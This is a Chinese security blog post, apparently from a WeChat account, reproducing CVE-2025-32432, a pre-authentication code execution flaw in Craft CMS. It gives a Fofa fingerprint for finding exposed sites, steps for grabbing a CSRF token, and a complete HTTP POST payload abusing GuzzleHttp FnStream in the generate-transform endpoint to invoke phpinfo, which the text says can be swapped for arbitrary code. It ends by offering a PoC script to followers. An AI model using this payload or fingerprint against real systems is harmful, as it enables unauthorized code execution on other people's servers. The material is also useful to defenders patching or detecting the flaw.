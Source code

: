 #  CraftCMS 存在前台命令执行漏洞 (CVE-2025-32432)   
 菜狗安全   2025-05-01 05:13  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
Craft CMS是一个开源的内容管理系统，它专注于用户友好的内容创建过程，逻辑清晰明了，是一个高度自由，高度自定义设计的平台吗，可以用来创建个人或企业网站也可以搭建企业级电子商务系统。  
  
**Fofa指纹:header="X-Powered-By: Craft CMS" || banner="X-Powered-By: Craft CMS"**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eILwB5V30uVj8RnQrTkgvO2SXP7NGO087eLGyF5Zdy1XZlYh98FGEEAmvnaia2hCicKsa6X7NW7QAQ/640?wx_fmt=webp&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eILwB5V30uVj8RnQrTkgvOicaxomEticklAJdCzXuxibuwZib8GBm7mZoSEdQJ4MtwkZbAk1mJDkFOgw/640?wx_fmt=webp&from=appmsg "")  
## 0x01 漏洞分析&复现  
  
**1.首先访问一下 /admin/login   获取一下CSRF_Token**  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eILwB5V30uVj8RnQrTkgvOkQeAbDzhQw2YB0kob1EuhbUuyo0A1zFV5ib0Nym1EHneZoMUezYhC8g/640?wx_fmt=other&from=appmsg "")  
  
**2.然后把CSRF_TOKEN 添加进去发包即可构造phpinfo 或 执行任意代码**  
  
****  
**Payload (phpinfo):**  
  
****  
```
POST /index.php?p=admin/actions/assets/generate-transform HTTP/2
Host: 127.0.0.1
Cookie: CRAFT_CSRF_TOKEN=e40fa024c0415d8febe047e1b10cb29c177af6f7078425b4a4ad51baa12ead4aa%3A2%3A%7Bi%3A0%3Bs%3A16%3A%22CRAFT_CSRF_TOKEN%22%3Bi%3A1%3Bs%3A40%3A%22IxdRpsRcEf5rV4Mg9Rlm6oO8MI482Vi9M-arQ6hi%22%3B%7D
Content-Type: application/json
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
X-Csrf-Token: mCR9N18c3CaAqUXR6nDCW4gZo0t8cHzu47I46ULar9yg2OGu6dafjNFcGWUvb45Fxc9wo7xEjzyxS88mSh8z1q77DNFwjMbl7fWA3Ljg9-U=
Content-Length: 215

{"assetId":11,"handle":{"width":123,"height":123,"as session":{"class":"craft\\behaviors\\FieldLayoutBehavior","__class":"GuzzleHttp\\Psr7\\FnStream","__construct()":[[]],"_fn_close":"phpinfo"}},"9qsccmw8lve":"="}

```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eILwB5V30uVj8RnQrTkgvO5kKASR4Thhj5SHIKJMlDRmbAxYJgQyUcgtlbMqdOztMz7iaJwKFXOrg/640?wx_fmt=webp&from=appmsg "")  
  
Nuclei 脚本:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5eILwB5V30uVj8RnQrTkgvO9dDwYxIWwqbL4jZIfwDDNaiapoNXEznjDP6UUKEiao0zfQVUbVGugL7Q/640?wx_fmt=png&from=appmsg "")  
## 0x02 脚本下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
  
**POC脚本关注公众号，发送 250501 获取!**  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
